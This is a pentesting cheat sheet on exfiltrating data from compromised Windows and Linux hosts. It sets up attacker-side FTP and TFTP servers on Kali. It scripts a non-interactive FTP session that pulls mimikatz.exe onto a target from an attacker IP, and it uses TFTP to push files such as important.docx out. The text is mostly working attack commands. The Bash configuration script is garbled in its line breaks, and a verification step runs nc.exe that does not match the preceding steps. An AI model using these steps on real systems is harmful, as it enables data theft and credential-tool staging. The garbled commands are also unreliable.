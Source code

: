 # Exfiltration

Exfiltration is the process of unauthorized data transfer from a target system to an attacker-controlled location.

## Exfiltration for Windows

***

This cheat sheet provides steps and techniques for exfiltrating data from a compromised Windows host.

### Non-Interactive FTP (Windows)

***

Verify FTP on the Windows host.

```jsx
ftp -h
```

Start the FTP server in Kali (assuming you have `pure-ftpd` installed).

```jsx
sudo systemctl restart pure-ftpd
```

Configure the FTP server in Kali. Create a Bash script (`configure_ftp.sh`) with the following content:

```jsx
#!/bin/bash 
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc 
ftpuser pure-pw useradd EVIL -u 
ftpuser -d /ftphome pure-pw 
mkdb cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
systemctl restart pure-ftpd
```

Execute the script to configure the FTP server in Kali.

```jsx
sudo bash configure_ftp.sh
```

On the target host, create a text file (`ftp.txt`) containing the FTP commands to execute.

```jsx
echo open 192.168.1.1 > ftp.txt 
echo USER ftpuser >> ftp.txt 
echo lab >> ftp.txt 
echo bin >> ftp.txt 
echo GET mimikatz.exe >> ftp.txt 
echo bye >> ftp.txt
```

Initiate an FTP session from the Windows host.

```jsx
ftp -v -n -s:ftp.txt
```

Verify that the downloaded files are on the Windows host.

```jsx
C:\\\\Users\\> nc.exe -h
```

## Exfiltration for Linux

***

### TFTP

***

Configure a TFTP server in Kali (assuming you have `atftp` installed).

```jsx
sudo apt update && sudo apt install atftp 
sudo mkdir /tftp 
sudo chown nobody: /tftp 
atftpd --daemon --port 69 /tftp
```

Download a file from the target using `tftp` (replace `IP` and `FILE` with the appropriate values).

```jsx
tftp -i IP GET FILE
```

To upload files from the target to your system (Kali), use the following command (replace `IP` and `important.docx` with the appropriate values).

```jsx
tftp -i IP put important.docx
```
